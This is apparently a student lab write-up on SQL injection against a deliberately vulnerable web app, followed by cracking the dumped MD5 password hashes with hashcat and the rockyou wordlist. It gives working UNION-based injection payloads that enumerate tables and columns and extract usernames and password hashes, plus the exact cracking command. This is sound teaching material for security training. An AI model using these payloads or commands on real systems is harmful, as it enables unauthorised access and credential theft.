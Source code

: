 # 2. SQL Injection

## 2.1. Basic Injection

When we change the ID parameter of the URL, it does the same thing as when we use the input field, the submission is done and we have the result

## 2.2. Always true scenario

When we put the following command in the field : 

```
%' or 0=0 union select null, version() #
```

The query is executed and the following result is obtained:

<img title="version of the database" alt="version of the database" src="/src/2.2_new.png">

We conclude that the database version is 10.1.26 of MariaDB

## 2.3 Exercises

### 2.3.1. Print the database user

To be able to select the important information of the users, we follow the following steps: 

- Look at the names of the tables to identify the users

To see the tables, we used the following command

```
%' or 0=0 union select table_name, null from information_schema.tables #"
```

the following result is obtained:

<img title="tables of the database" alt="ables of the database" src="/src/2.3.1_0.png">

So the name of the users table is users.
There are other tables of course but we just stopped the capture at this level for readability reasons 

- Identify important columns

We used the following command to find the columns of the users table.

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' 
```

Here is the result

<img title="Columns of the users table" alt="Columns of the users table" src="/src/2.3.1_1.png">

We see on this picture all the columns (highlighted in yellow) of the table.

- Select user data on the fields we are interested in 

We have chosen to retrieve the following fields: user_id, user, first_name, last_name, last_login, password.

Here is the query used 

```
%' or 0=0 union select 'user_id|user|first_name|last_name|last_login|password)', concat(user_id,'|',user, '|', first_name, '|', last_name, '|', last_login, '|', password) from users #
```

And here is the result

<img title="Retrieve of columns" alt="Retrieve of columns" src="/src/2.3.1_2.png">

The value of the First Name field displayed is just to help us find the value of the Surname field

### 2.3.2. Print the database name

To find the name of the database, we used this query: 

```
%' or 0=0 union select null, database() #
```

This gives as an answer: 

<img title="Database name" alt="Database name" src="/src/2.3.2.png">

### 2.2.3. Print the name of all of the tables in the database

The query to do this is as follows: 

```
%' or 0=0 union select table_name, null from information_schema.tables #
```

We also used it in answer 1.

Below is the result

<img title="All tables name" alt="All tables name" src="/src/2.3.3.png">

### 2.2.4. Print the names of all of the columns in the users table

We have already done so in answer 2.2.2 and here is the query we used

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' # 
```

### 2.2.5. Now that we have the column names, print out the usernames and hashed passwords for each user !

We used this query to get the usernames and passwords of the users 

```
%' or 0=0 union select 'first_name|last_name|password)', concat(first_name, '|', last_name, "|", password) from users #
```

Result:

<img title="Usernames and passwords of the users" alt="Usernames and passwords of the users" src="/src/2.3.5.png">

the logic of the output is the same as the answer 2.2.2

# 3. Cracking hashed passwords with hashcat

To crack the passwords, we followed the following steps

### 3.1. Create a file with hashed passwords

We used the following echo command to create the file 

```
echo -e "5f4dcc3b5aa765d61d8327deb882cf99\ne99a18c428cb38d5f260853678922e03\n8d3533d75ae2c3966d7e0d4fcc69216b\n0d107d09f5bbe40cade3de5c71e9e9b7\n5f4dcc3b5aa765d61d8327deb882cf99" >> target_hashes.txt
```

Here is what it looks like when displayed

<img title="Display hashed file" alt="Display hashed file" src="/src/3.2.png">

### 3.2. Decompression of the rockyou word list

The decompression was performed with the following command

```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

The result

<img title="Display wordlist" alt="Display wordlist" src="/src/3.0.png">

### 3.3. Password cracking with MD5

Here is the command used

```
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
```

Here is what you get after cracking

<img title="Display cracked file" alt="Display cracked file" src="/src/3.4.png">

We notice that we had 5 hashes and we have 4 results, this is explained by the fact that there are two identical hashes, so the same password.
